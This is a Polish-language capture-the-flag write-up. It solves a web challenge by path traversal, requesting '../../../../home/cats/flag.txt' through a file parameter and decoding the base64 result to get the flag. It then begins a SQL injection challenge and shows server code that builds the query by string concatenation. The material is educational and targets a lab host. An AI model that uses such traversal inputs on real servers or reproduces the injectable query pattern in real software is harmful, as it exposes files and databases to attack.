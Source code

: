 [https://cats.pwning2016.p4.team/view.html?file=../../../../../../../../home/cats/flag.txt](https://cats.pwning2016.p4.team/view.html?file=../../../../../../../../home/cats/flag.txt)

> Uwaga: Tak naprawdę nie wiadomo w jakiej ścieżce na serwerze znajduje się wyświetlana strona internetowa. Z tego powodu, im więcej wykorzystamy `../` tym większe prawdopodobieństwo, że faktycznie dostaniemy się do ścieżki bazowej/początkowej (`/`).

Co daje stronę o poniższym źródle:

```html
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <title>A cat!</title>
</head>
<body>

    <center>
        <img alt = "Embedded Image" src = "data:image/png;base64,cHdue2tvdHkuY3p5Lm5pZSx6YWRhbmllLnpyb2Jpb25lfQo=" />
    </center>
</body>
</html>
```

Skąd widać, że prawdopodobnie kod po stronie serwera czyta obrazek, koduje go w base64, a następnie wrzuca do tagu `img`. Wystarczy zatem zdekodować base64 i w ten sposób otrzymamy zawartość pliku `/home/cats/flag.txt`. Można to zrobić na przykład wykorzystując [interaktywną powłokę do języka Python - IPython](https://programistamag.pl/ipython-wygodna-interaktywna-powloka-pythona/):

```python
In [1]: from base64 import decodestring

In [2]: decodestring 'cHdue2tvdHkuY3p5Lm5pZSx6YWRhbmllLnpyb2Jpb25lfQo='
Out[2]: 'pwn{koty.czy.nie,zadanie.zrobione}\n'
```

---

### Moja pierwsza strona (web 50)
Opis: Znaleźliśmy panel na którym cyberprzestępcy chowają wykradzione przez siebie dane. Przeprowadź atak snajperski i dowiedz się jaką flagę wykradli hackerzy.

#### Screen
![Screen strony 'moja pierwsza strona']({{ site.url }}assets/p4ctf/web50_moja_pierwsza_strona.png)


#### Rozwiązanie
Strona zawiera panel logowania, a tekst na niej sugeruje, że mamy do czynienia z podatnością SQL Injection. Kod po stronie serwera wykonujący zapytanie SQL może wyglądać podobnie do:

```python
username = params['username']
password = params['password']
query = "SELECT username, password FROM users WHERE username='" + username + "' AND password = '" + password + "'"
db.execute(query)
```
